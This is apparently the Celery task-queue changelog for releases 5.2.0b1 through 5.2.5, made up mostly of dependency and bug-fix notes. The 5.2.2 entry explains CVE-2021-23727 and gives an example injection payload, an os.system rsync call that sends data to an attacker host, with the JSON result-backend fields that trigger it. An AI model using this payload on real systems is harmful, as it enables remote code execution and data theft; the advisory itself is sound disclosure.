.. _version-5.2.5:

5.2.5
=====

:release-date: 2022-4-03 20:42 P.M UTC+2:00
:release-by: Omer Katz

**This release was yanked due to a regression caused by the PR below**

- Use importlib instead of deprecated pkg_resources (#7218).

.. _version-5.2.4:

5.2.4
=====

:release-date: 2022-4-03 20:30 P.M UTC+2:00
:release-by: Omer Katz

- Expose more debugging information when receiving unknown tasks (#7404).

.. _version-5.2.3:

5.2.3
=====

:release-date: 2021-12-29 12:00 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Allow redis >= 4.0.2.
- Upgrade minimum required pymongo version to 3.11.1.
- tested pypy3.8 beta (#6998).
- Split Signature.__or__ into subclasses' __or__ (#7135).
- Prevent duplication in event loop on Consumer restart.
- Restrict setuptools>=59.1.1,<59.7.0.
- Kombu bumped to v5.2.3
- py-amqp bumped to v5.0.9
- Some docs & CI improvements.


.. _version-5.2.2:

5.2.2
=====

:release-date: 2021-12-26 16:30 P.M UTC+2:00
:release-by: Omer Katz

- Various documentation fixes.
- Fix CVE-2021-23727 (Stored Command Injection security vulnerability).

    When a task fails, the failure information is serialized in the backend.
    In some cases, the exception class is only importable from the
    consumer's code base. In this case, we reconstruct the exception class
    so that we can re-raise the error on the process which queried the
    task's result. This was introduced in #4836.
    If the recreated exception type isn't an exception, this is a security issue.
    Without the condition included in this patch, an attacker could inject a remote code execution instruction such as:
    ``os.system("rsync /data attacker@192.168.56.100:~/data")``
    by setting the task's result to a failure in the result backend with the os,
    the system function as the exception type and the payload ``rsync /data attacker@192.168.56.100:~/data`` as the exception arguments like so:

    .. code-block:: python

        {
              "exc_module": "os",
              'exc_type': "system",
              "exc_message": "rsync /data attacker@192.168.56.100:~/data"
        }

    According to my analysis, this vulnerability can only be exploited if
    the producer delayed a task which runs long enough for the
    attacker to change the result mid-flight, and the producer has
    polled for the task's result.
    The attacker would also have to gain access to the result backend.
    The severity of this security vulnerability is low, but we still
    recommend upgrading.


.. _version-5.2.1:

5.2.1
=====

:release-date: 2021-11-16 8.55 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Fix rstrip usage on bytes instance in ProxyLogger.
- Pass logfile to ExecStop in celery.service example systemd file.
- fix: reduce latency of AsyncResult.get under gevent (#7052)
- Limit redis version: <4.0.0.
- Bump min kombu version to 5.2.2.
- Change pytz>dev to a PEP 440 compliant pytz>0.dev.0.
- Remove dependency to case (#7077).
- fix: task expiration is timezone aware if needed (#7065).
- Initial testing of pypy-3.8 beta to CI.
- Docs, CI & tests cleanups.


.. _version-5.2.0:

5.2.0
=====

:release-date: 2021-11-08 7.15 A.M UTC+6:00
:release-by: Asif Saif Uddin

- Prevent from subscribing to empty channels (#7040)
- fix register_task method.
- Fire task failure signal on final reject (#6980)
- Limit pymongo version: <3.12.1 (#7041)
- Bump min kombu version to 5.2.1

.. _version-5.2.0rc2:

5.2.0rc2
========

:release-date: 2021-11-02 1.54 P.M UTC+3:00
:release-by: Naomi Elstein

- Bump Python 3.10.0 to rc2.
- [pre-commit.ci] pre-commit autoupdate (#6972).
- autopep8.
- Prevent worker to send expired revoked items upon hello command (#6975).
- docs: clarify the 'keeping results' section (#6979).
- Update deprecated task module removal in 5.0 documentation (#6981).
- [pre-commit.ci] pre-commit autoupdate.
- try python 3.10 GA.
- mention python 3.10 on readme.
- Documenting the default consumer_timeout value for rabbitmq >= 3.8.15.
- Azure blockblob backend parametrized connection/read timeouts (#6978).
- Add as_uri method to azure block blob backend.
- Add possibility to override backend implementation with celeryconfig (#6879).
- [pre-commit.ci] pre-commit autoupdate.
- try to fix deprecation warning.
- [pre-commit.ci] pre-commit autoupdate.
- not needed anyore.
- not needed anyore.
- not used anymore.
- add github discussions forum

.. _version-5.2.0rc1:

5.2.0rc1
========
:release-date: 2021-09-26 4.04 P.M UTC+3:00
:release-by: Omer Katz

- Kill all workers when main process exits in prefork model (#6942).
- test kombu 5.2.0rc1 (#6947).
- try moto 2.2.x (#6948).
- Prepared Hacker News Post on Release Action.
- update setup with python 3.7 as minimum.
- update kombu on setupcfg.
- Added note about automatic killing all child processes of worker after its termination.
- [pre-commit.ci] pre-commit autoupdate.
- Move importskip before greenlet import (#6956).
- amqp: send expiration field to broker if requested by user (#6957).
- Single line drift warning.
- canvas: fix kwargs argument to prevent recursion (#6810) (#6959).
- Allow to enable Events with app.conf mechanism.
- Warn when expiration date is in the past.
- Add the Framework :: Celery trove classifier.
- Give indication whether the task is replacing another (#6916).
- Make setup.py executable.
- Bump version: 5.2.0b3 → 5.2.0rc1.

.. _version-5.2.0b3:

5.2.0b3
=======

:release-date: 2021-09-02 8.38 P.M UTC+3:00
:release-by: Omer Katz

- Add args to LOG_RECEIVED (fixes #6885) (#6898).
- Terminate job implementation for eventlet concurrency backend (#6917).
- Add cleanup implementation to filesystem backend (#6919).
- [pre-commit.ci] pre-commit autoupdate (#69).
- Add before_start hook (fixes #4110) (#6923).
- Restart consumer if connection drops (#6930).
- Remove outdated optimization documentation (#6933).
- added https verification check functionality in arangodb backend (#6800).
- Drop Python 3.6 support.
- update supported python versions on readme.
- [pre-commit.ci] pre-commit autoupdate (#6935).
- Remove appveyor configuration since we migrated to GA.
- pyugrade is now set to upgrade code to 3.7.
- Drop exclude statement since we no longer test with pypy-3.6.
- 3.10 is not GA so it's not supported yet.
- Celery 5.1 or earlier support Python 3.6.
- Fix linting error.
- fix: Pass a Context when chaining fail results (#6899).
- Bump version: 5.2.0b2 → 5.2.0b3.

.. _version-5.2.0b2:

5.2.0b2
=======

:release-date: 2021-08-17 5.35 P.M UTC+3:00
:release-by: Omer Katz

- Test windows on py3.10rc1 and pypy3.7 (#6868).
- Route chord_unlock task to the same queue as chord body (#6896).
- Add message properties to app.tasks.Context (#6818).
- handle already converted LogLevel and JSON (#6915).
- 5.2 is codenamed dawn-chorus.
- Bump version: 5.2.0b1 → 5.2.0b2.

.. _version-5.2.0b1:

5.2.0b1
=======

:release-date: 2021-08-11 5.42 P.M UTC+3:00
:release-by: Omer Katz

- Add Python 3.10 support (#6807).
- Fix docstring for Signal.send to match code (#6835).
- No blank line in log output (#6838).
- Chords get body_type independently to handle cases where body.type does not exist (#6847).
- Fix #6844 by allowing safe queries via app.inspect().active() (#6849).
- Fix multithreaded backend usage (#6851).
- Fix Open Collective donate button (#6848).
- Fix setting worker concurrency option after signal (#6853).
- Make ResultSet.on_ready promise hold a weakref to self (#6784).
- Update configuration.rst.
- Discard jobs on flush if synack isn't enabled (#6863).
- Bump click version to 8.0 (#6861).
- Amend IRC network link to Libera (#6837).
- Import celery lazily in pytest plugin and unignore flake8 F821, "undefined name '...'" (#6872).
- Fix inspect --json output to return valid json without --quiet.
- Remove celery.task references in modules, docs (#6869).
-  The Consul backend must correctly associate requests and responses (#6823).

